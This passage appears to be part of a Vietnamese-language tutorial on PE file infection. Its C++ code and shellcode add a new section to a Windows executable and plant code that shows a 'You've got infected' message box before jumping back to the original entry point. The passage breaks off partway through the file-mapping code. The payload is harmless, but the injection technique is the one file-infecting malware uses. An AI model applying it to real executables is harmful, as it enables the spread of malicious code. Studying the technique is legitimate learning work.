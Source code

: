 ```Cpp
    SetFilePointer(hFile, newSectionOffset + newSectionSize, NULL, FILE_BEGIN);
    SetEndOfFile(hFile);
    CloseHandle(hFile);

    return TRUE;
}
```

## Add Code Into New Section

Theo nội dung của Section mới, ta thấy được đoạn shellcode như sau:

```shellcode
0x6A 0x00                        (PUSH 0)
0x68 0x30 0xF0 0x01 0x00         (PUSH 0x101F030)
0x68 0x50 0xF0 0x01 0x00         (PUSH 0x101F030)
0x6A 0x00                        (PUSH 0)
0xE8 0x2D 0xBE 0x88 0x75         (CALL 0x7588BE2D)
0xE9 0x5D 0x34 0xFF 0xFF         (JMP 0x1012475)
```

Tuy nhiên khi code ta cần phải tính toán lại địa chỉ để code có thể hoạt động trên các file khác nhau vì thế đoạn shellcode chung sẽ như sau:

```Cpp
char shellCode[] = 
    "\x6A\x00"                  // PUSH 0
    "\x68\x00\x00\x00\x00"      // PUSH "Injected Calculator"
    "\x68\x00\x00\x00\x00"      // PUSH "You've got infected"
    "\x6A\x00"                  // PUSH 0
    "\xE8\x00\x00\x00\x00"      // CALL USER32.MessageBoxA
    "\xE9\x00\x00\x00\x00";     // JMP 1012475
```

Đầu tiên ta cần đưa 2 đoạn string mà ta cần vào trong section tại một địa chỉ nhất định rồi sau đó thay đổi shellcode để lấy được 2 strings dựa vào địa chỉ của chúng

```Cpp
HANDLE hFile;
HANDLE hFileMapping;
LPVOID lpFileBase;
PIMAGE_DOS_HEADER dosHeader;
PIMAGE_NT_HEADERS ntHeaders;
PIMAGE_SECTION_HEADER sectionHeader;

// Open the file
hFile = CreateFileA(filePath, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
    printf("Could not open file (error %lu)\n", GetLastError());
    return FALSE;
}

// Create a file mapping object
hFileMapping = CreateFileMapping(hFile, NULL, PAGE_READWRITE, 0, 0, NULL);
if (!hFileMapping) {
    printf("Could not create file mapping object (error %lu)\n", GetLastError());
    CloseHandle(hFile);
    return FALSE;
}

// Map the file into the address space of the current process
lpFileBase = MapViewOfFile(hFileMapping, FILE_MAP_WRITE, 0, 0, 0);
if (!lpFileBase) {
    printf("Could not map view of file (error %lu)\n", GetLastError());
    CloseHandle(hFileMapping);
```